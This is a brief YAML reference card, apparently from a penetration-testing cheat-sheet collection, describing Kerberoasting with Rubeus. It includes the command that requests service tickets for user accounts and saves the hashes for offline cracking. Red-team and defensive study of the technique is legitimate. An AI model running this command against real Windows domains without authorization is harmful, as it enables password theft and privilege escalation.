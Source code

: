 ```yaml
---
title: |
  Fetch Service Principle Names (SPNs) that are associated with user accounts
description: |
  Rubeus' `kerberoast` module will attempt to fetch Service Principal Names that are associated with normal user accounts. What is returned is a ticket that is encrypted with the user account's password, which can then be bruteforced offline. The following command is run on a Windows machine in the victim domain.

  Command Reference:

  	Output File: hashes.txt

command: |
  Rubeus.exe kerberoast /outfile:hashes.txt
items:
  - Shell
services:
  - Kerberos
OS:
  - Windows
attack_types:
  - Exploitation
  - PrivEsc
references:
  - https://github.com/GhostPack/Rubeus
  - https://github.com/GhostPack/Rubeus#kerberoast
---
```

